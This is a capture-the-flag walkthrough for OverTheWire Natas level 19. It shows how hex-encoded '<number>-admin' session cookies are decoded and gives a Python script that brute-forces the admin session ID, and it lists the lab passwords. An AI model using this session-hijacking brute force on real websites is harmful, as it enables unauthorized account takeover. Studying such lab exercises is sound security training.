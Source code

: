 - This level needs us to apply our bruteforcing skills in a clever manner
- From [[Natas18_to_Natas19|previous level]], we know that we can bruteforce the session IDs and obtain the saved session of admin user. We need to apply a similar logic here as well
- However, unlike the [[Natas18_to_Natas19|previous level]], we can see that the session IDs are no longer a numeric string and are now much more random. We need to be a bit clever in our approach
- One idea is to analyse the type of encoding that is being done to the session ID. For example, let's observe the session ID `3131322d` that was sent in the response headers in the `Set-Cookie` header. Putting it in [CyberChef](https://gchq.github.io/CyberChef/) , and using the From Hex recipe, we can see that this is indeed hex encoded value, which comes out to be `112-`
- So we observe that we can indeed set a numeric value in the cookie, however bruteforcing using only this piece of information does not yield any satisfactory results (I tried it personally)
- We also need another piece of info. So let's try filling the username and password fields and see what we get. 
- Let's fire up BurpSuite, and trigger a request with the value of username field as `username` and password field as `password`
- In the response, under the `Set-Cookie` header, we get the value `3432312d757365726e616d65`, which, if we put in [CyberChef](https://gchq.github.io/CyberChef/), we get `421-username`
- So, this means, we can control the cookie by our intent, and bruteforce the session ID of the admin user. For the admin user, the session ID would be in the format `<number>-admin`
- We can write a python script for the same:
```python
import requests
from requests.auth import HTTPBasicAuth
URL = "http://natas19.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
body = {'username' : '', 'password' : ''}
FAIL_TEXT = "You are logged in as a regular user. Login as an admin to retrieve credentials for natas20."
print("bruteforcing...")
i = 1
while True:
	session_id = f"{i}-admin".encode('utf-8').hex()
	cookie = { 'PHPSESSID' : f"{session_id}"}
	print(f"Sending request with session id: '{i}-admin', in encoded form: {session_id}")
	r = requests.post(URL, params=body, auth=auth, cookies=cookie)
	i += 1
	if FAIL_TEXT not in r.text:
		print("Session id found!")
		print(f"{session_id}")
		break
```
- Running the above script results into a session ID `281-admin` that gives us the admin session. We get the encoded session ID `3238312d61646d696e` and pass it into the request which we fire from BurpSuite, and the password for next level is obtained :)
- Obtained password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw